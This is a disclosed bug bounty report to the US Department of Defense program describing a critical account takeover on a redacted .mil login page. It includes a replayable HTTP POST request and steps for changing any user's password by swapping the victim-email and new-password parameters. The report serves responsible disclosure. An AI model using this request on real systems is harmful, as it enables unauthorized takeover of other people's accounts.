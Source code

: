# Full account takeover on https://████████.mil

## Report Details
- **Report ID**: 1058015
- **URL**: https://hackerone.com/reports/1058015
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-12-13T20:07:48.475Z
- **Disclosed**: 2021-01-25T19:55:36.701Z

## Reporter
- **Username**: raywando
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
###Description

The flow in application is to sign up and wait for an email containing a one-time password, as soon as you login using that password, it asks you to change it. I took that password change request and applied on any email changing their password and it worked

###Steps to produce:

1- Copy the following request: (note `txtEMail` and `txtNewPassword` parameters)
```
POST /Login.aspx HTTP/1.1
Host: ██████████.mil
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1052
Origin: https://█████.mil
Connection: close
Referer: https://██████.mil/Login.aspx
Upgrade-Insecure-Requests: 1

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=████&__VIEWSTATEENCRYPTED=&__EVENTVALIDATION=█████████&txtMail=&txtEMail=[VICTIM_EMAIL]&reqEMailE_ClientState=&revEMailE_ClientState=&txtNewPassword=[DESIRED_PASSWORD]&btnNewPassword=Submit
```
2- Now, log in using any victim email with a random password and intercept the request at `https://█████.mil/Login.aspx`
3- Paste the request you copied above and change the `txtEMail` (to victim email) and `txtNewPassword` parameters and send it.

## Impact

Full account takeover on any user.

## Attachments
No attachments
